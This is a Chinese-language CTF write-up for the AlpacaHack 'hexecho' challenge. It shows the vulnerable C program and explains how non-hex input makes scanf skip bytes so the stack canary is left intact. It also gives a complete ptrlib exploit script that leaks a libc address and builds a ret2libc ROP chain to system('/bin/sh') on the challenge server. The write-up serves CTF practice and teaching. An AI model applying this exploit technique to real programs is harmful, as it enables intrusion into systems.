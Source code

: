### Scanf 绕过泄露 libc

话不多说，直接上题（AlpacaHack Round 1）

![](https://pic1.imgdb.cn/item/679f57add0e0a243d4f99574.png)

主要代码如下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#define BUF_SIZE 0x100

int get_size() {
  int size = 0;
  scanf("%d%*c", &size);
  return size;
}

void get_hex(char *buf, unsigned size) {
  for (unsigned i = 0; i < size; i++)
    scanf("%02hhx", buf + i);
}

void hexecho() {
  int size;
  char buf[BUF_SIZE];

  // Input size
  printf("Size: ");
  size = get_size();

  // Input data
  printf("Data (hex): ");
  get_hex(buf, size);

  // Show data
  printf("Received: ");
  for (int i = 0; i < size; i++)
    printf("%02hhx ", (unsigned char)buf[i]);
  putchar('\n');
}

int main() {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  hexecho();
  return 0;
}
```

`%02hhx` 会读取**最多2个十六进制字符**，遇到非十六进制字符（如空格）时停止

可以参考 3.1 那一节，我们这次输入数据要转为十六进制数

但是少了后门函数，附件还给了 libc.so 文件，推测要泄露 libc 基址

查看缓冲区大小

![](https://pic1.imgdb.cn/item/679f626ed0e0a243d4f9972c.png)

**如果给出一个非十六进制的字符串，scanf 将失败，字符后面的任何字符都将被忽略并且 for 语句可以继续**

缓冲区到 r 处是 280 字节，我们需要在 279 字节处输入正常数值，不然 r 处一样会被忽略

```python
from ptrlib import *

p = Socket('34.170.146.252', 51786)
e = ELF('./hexecho_patched')
libc = ELF('./libc.so.6')

# 将一个地址转换为十六进制字符串，并按两个字符分隔输出
def to_hex(addr):
    print(hex(addr))
    h = p64(addr).hex()
    return ' '.join([h[i:i+2] for i in range(0, len(h), 2)])
    
p.sendlineafter('Size: ', 280 + 16)
p.recvuntil('Data (hex): ')

for i in range(279):
    p.send(b'+')

p.send('22 ')

# e.gadget('ret;') 查找下一个 “ret;”
p.sendline(to_hex(next(e.gadget('ret;'))))

# 获取 main 函数的地址
p.sendline(to_hex(e.symbol('main')))

# 获取 Libc 基址
recv = p.recvlineafter('Received: ').split()
idx = recv.index(b'7f')
ofs = int(b''.join(recv[idx-5:idx+1][::-1]).decode(), 16)
libc.base = ofs - 0x7f7117a5c780 + 0x7f7117841000

p.sendlineafter('Size: ', 280 + 8 * 4)
p.recvuntil('Data (hex): ')

for i in range(279):
    p.send(b'+')
    
p.send('22 ')

p.sendline(to_hex(next(e.gadget('ret;'))))

# 查找并发送 pop rdi; ret;
p.sendline(to_hex(next(libc.gadget('pop rdi; ret;'))))
p.sendline(to_hex(next(libc.find(b'/bin/sh'))))
p.sendline(to_hex(libc.symbol('system')))

r = p.recvlineafter('Received: ')

p.interactive()
```

运行脚本拿到 flag

![](https://pic1.imgdb.cn/item/679f780cd0e0a243d4f99ac0.png)
